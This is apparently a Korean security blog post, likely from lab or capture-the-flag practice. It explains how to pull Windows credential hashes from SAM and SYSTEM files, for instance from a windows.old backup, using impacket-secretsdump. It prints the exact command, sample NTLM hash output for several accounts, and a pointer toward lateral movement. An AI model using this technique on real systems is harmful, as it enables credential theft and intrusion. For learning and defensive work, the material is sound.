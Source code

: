 ```yaml
---
layout: post
title: SAM, SYSTEM 덤프하기
subtitle: SAM, SYSTEM 덤프해서 크레덴셜 알아내는 방법
category: knowledge
thumbnail-img: /assets/img/404-southpark.jpg
tags: [sam, system, impacket-secretsdump]
author: Hong
---
```


# SAM과 SYSTEM

윈도우의 system32 폴더 안에는 비밀번호, NTLM 해쉬 같은 크레덴셜 정보를 담고 있는 SAM, SYSTEM같은 파일들이 있다.

민감한 파일들이라 평소에는 보호받고 있어서 복붙도 불가능하다.

하지만 백업파일로 남아있는 경우 (windows.old 같은) 이 민감한 파일들을 이용해서 유저의 크레덴셜을 추출할 수가 있다.

# SAM, SYSTEM 파일에서 정보 추출하기

kali에서 impacket-secretsdump라는 툴을 사용하기 위해 공격자 머신으로 두 파일을 옮길 필요가 있다.

파일들은 system32 폴더 안을 찾아보면 있다.

![SAM](/assets/img/knowledge/samsystem.png)

두 파일을 옮겼으면 다음의 명령어를 사용해서 크레덴셜을 추출한다.

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
```

그럼 위와 같이 유저명과 크레덴셜들이 출력되는데 가장 뒤에 있는 게 NTLM 해쉬다.

해쉬를 이용해서 다른 머신으로 래터럴무브먼트가 가능할지도 모른다.
